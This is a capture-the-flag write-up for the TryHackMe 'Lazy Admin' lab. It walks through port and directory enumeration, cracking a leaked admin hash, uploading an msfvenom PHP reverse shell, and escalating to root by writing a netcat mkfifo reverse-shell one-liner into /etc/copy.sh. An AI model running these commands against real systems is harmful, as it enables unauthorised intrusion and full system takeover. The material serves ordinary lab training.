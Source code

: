 # Lazy Admin

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with nmap. This can be done with the command ```nmap -A -T4 <ip>```.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.2p2 and the server is an Apache server running on ubuntu. For further enumeration we can use ffuf with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![fuzzing1](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing.png)

```/content``` seems interesting, so let's check it out. Hmm, that did not give us much.

![content](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/content.png)

Let's try fuzzing even deeper, we can do this with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/content/FUZZ"```

![fuzzing2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing2.png)

```/as``` seems interesting, so lets check it out, oh an admin panel. We could try to brute-force it, but let's continue searching to see if we can find anything else that might be interesting.

![login](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/login.png)

We can find an backup of an mysql database at ```<ip>/content/inc/mysql_backup```, lets try downloading it to see what it contains.

![sql](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql.png)

Here we can find both a username and an hashed password, maybe if we can crack the password we can use it to login to the admin panel.

![sql_pass](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql_pass.png)

I used ```https://crackstation.net/``` to crack the password.

![pass_cracked](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/pass_cracked.png)

Now we can log in to the admin panel. 

![admin](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/admin_panel.png)

## Getting a shell
Now that we have gotten into the admin panel, it's time to look for a way to get a shell. After looking around on the admin panel for a litte while I found an upload button, lets see if we can upload a reverse shell through the upload form. 

![upload](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/upload.png)

We can create an reverse shell with the command ```msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. Now we can try to upload it, it worked! Now we can go to ```<ip>/content/attachment/shell.php5``` and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload ```php/meterpreter_reverse_tcp```. Set the options ```LHOST <your ip>``` and ```LPORT <choosen port>```.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/msf.png)

That worked, we now have gotten into the computer.

![user](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/user.png)

## Privilege Escalation
Now that we have gotten into the computer it's time for privilege escalation, so let's do some enumeration. ```sudo -l``` shows us that we can use ```/user/bin/perl /home/itguy/backup.pl``` as root.

![priv_esc](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc.png)

Let's check out the ```/home/itguy/backup.pl``` file.

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc2.png)

Ok, now lets check out the ```/etc/copy.sh``` file.

![priv_esc3](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc3.png)

It seems like most of the job is done for us. Let's change the ip to our ip. We can do this with ```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 5554 >/tmp/f" > /etc/copy.sh```

We can now try to catch it with netcat on our computer with ```nc -nvlp 5554``` and then run ``backup.pl`` with ```sudo /usr/bin/perl /home/itguy/backup.pl```

![root](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/root.png)

That worked, we have now root access on the machine.
